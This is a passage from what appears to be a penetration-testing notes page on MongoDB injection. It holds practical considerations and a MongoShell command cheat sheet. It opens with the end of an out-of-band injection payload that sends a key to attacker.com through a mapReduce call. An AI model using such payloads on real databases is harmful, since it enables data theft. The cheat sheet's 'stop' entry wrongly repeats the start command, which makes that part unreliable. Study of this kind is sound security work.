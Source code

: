 	        require('http').get('http://attacker.com/?key=' + key);
	        return null;
	    },
	    { out: { inline: 1 } }
	)
	```

### Practical Considerations for MongoDB Injection

1. **NoSQL Nature:** MongoDB doesn’t use SQL, but it is still vulnerable to injection attacks if inputs are not sanitized, especially when applications allow direct access to query operators, JavaScript, or other MongoDB-specific commands.
2. **JSON and BSON:** MongoDB queries are written in JSON or BSON format, meaning injection payloads often target the structure of these objects rather than traditional SQL syntax.
3. **JavaScript Execution:** MongoDB’s ability to execute JavaScript on the server side (e.g., with `$where`, `eval`, or `mapReduce`) can be exploited if these features are not properly secured.
4. **Restricted Operations:** Many potentially harmful operations (e.g., `eval()`) have been deprecated or restricted in MongoDB, so attacks may require older or misconfigured versions of MongoDB.
5. **Network Security:** Out-of-band techniques require the MongoDB server to have network access and the ability to execute external commands or connect to external services. Proper network segmentation and firewall rules can mitigate these risks.

## Tools

### [[MongoShell]]
https://www.w3schools.com/mongodb/index.php
- **Start MongoDB Service:** Starts the MongoDB daemon on a Linux system.
    ```bash
    sudo systemctl start mongod
    ```
- **Stop MongoDB Service:** Stops the MongoDB daemon on a Linux system.
    ```bash
    sudo systemctl start mongod
    ```
- **Connect to MongoDB Shell Locally:** Connects to the MongoDB instance locally.
    ```bash
    mongo --host <target_ip> --port 27017
    ```
- **Connect to MongoDB Shell Remotely:** Connects to the MongoDB instance on the specified IP and port.
    ```bash
    mongo --host <target_ip> --port 27017 -u <username> -p <password> --authenticationDatabase admin
    ```
- **Backup:**
	```bash
	mongodump --host <host> --port <port> --username <username> --password <password> --out /path/to/backup
	```
- **Restore:**
```bash
mongorestore --host <host> --port <port> --username <username> --password <password> /path/to/backup
```
